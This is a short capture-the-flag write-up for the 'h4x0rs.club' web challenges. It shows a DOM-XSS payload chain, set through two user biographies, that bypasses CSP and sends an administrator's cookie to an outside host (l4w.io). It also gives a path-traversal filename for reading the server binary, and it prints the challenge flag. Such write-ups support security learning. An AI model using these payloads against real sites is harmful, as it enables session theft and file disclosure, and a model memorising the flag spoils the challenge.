 # h4x0rs.club part 2

## https://h4x0rs.club/game/
```
Get document .cookie of the administartor.

h4x0rs.club

backend_www got backup at /var/www/html.tar.gz

Hint: Get open-redirect first, lead admin to the w0rld!
```

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

There is DOM-XSS at `client.js` when setting `title` on `badges` function. CSP contains `strict-dynamic`, so you can just simply inject `'><script>...</script>`

To do it, take a look at the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report></iframe>' id=report-btn></a>
```

`<iframe>` with a local src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`

## Flag
`flag{postman_1n_the_middl3}`

# h4x0rs.club part 3

You can get the binary by abusing `badges` action with filename: `../../../../../../proc/self/exe`

I really like my idea behind this one. Pwn the binary with full mitigations shipped. 

Hopefully someone can write about it :(
